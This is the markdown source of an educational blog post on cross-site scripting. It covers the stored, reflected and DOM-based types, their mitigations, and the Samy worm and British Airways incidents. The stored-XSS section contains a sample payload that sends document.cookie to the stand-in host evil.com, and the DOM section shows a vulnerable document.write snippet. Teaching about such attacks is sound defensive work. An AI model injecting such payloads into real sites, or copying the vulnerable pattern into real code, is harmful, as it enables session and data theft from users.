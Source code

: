 ```markdown
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-31
layout: post
tag: [OWASP, Web Security, XSS]
---

<div style="display: flex; gap: 30px; align-items: flex-start; margin-bottom: 30px;">

<!-- Table of Contents -->
<div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">

<strong>Table of Contents</strong>
<ul>
  <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
  <li><a href="#types-of-xss">Types of XSS</a>
    <ul>
      <li><a href="#1-stored-xss">1. Stored XSS</a></li>
      <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
      <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
    </ul>
  </li>
  <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
  <li><a href="#real-world-examples">Real-World Examples</a></li>
  <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
  <li><a href="#conclusion">Conclusion</a></li>
  <li><a href="#references">References</a></li>
</ul>
</div>
</div>

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

---

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**
1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload & Mitigation:**
```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>

Mitigation: Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).
```

---

### 2. Reflected XSS

**Definition:**  
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

**How it works:**
1. Attacker crafts a malicious link containing JavaScript code in a parameter.
2. Victim clicks the link and sends a request to the vulnerable application.
3. The application reflects the malicious input in its response, which the browser executes.

**Example payload & Mitigation:**
```plaintext
https://example.com/search?q=<script>alert('XSS')</script>

Mitigation: Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.
```

---

### 3. DOM-Based XSS

**Definition:**  
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

**How it works:**
1. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.
2. The vulnerable JavaScript code inserts this data directly into the page without escaping.
3. The browser executes the malicious code.

**Example vulnerable code, attack URL & Mitigation:**
```javascript
// Vulnerable code:
document.write(location.hash);

// Attack URL:
https://example.com/page#<script>alert('XSS')</script>

Mitigation: Avoid dangerous DOM manipulation methods like document.write() and innerHTML with untrusted data; use safe DOM APIs like textContent or setAttribute(); sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.
```

---

## How XSS Attacks Work

1. **Injection:** The attacker injects malicious JavaScript into a vulnerable page.  
2. **Execution:** The victim’s browser renders the page and runs the script.  
3. **Impact:** The attacker can steal session cookies, perform actions as the user, or spread malware.

---

## Real-World Examples

- **MySpace Samy Worm (2005):** A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.  
- **British Airways Breach (2018):** Malicious JavaScript was injected to steal payment details from thousands of customers.

---

## General Mitigation Strategies

- Validate and sanitize all user inputs on both client and server.  
- Use context-specific output encoding.  
- Enforce a strong Content Security Policy (CSP).  
- Avoid unsafe JavaScript functions and DOM manipulation methods.  
- Use security features provided by frameworks.  
- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

---

## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

---

## References

- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)  
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)
```
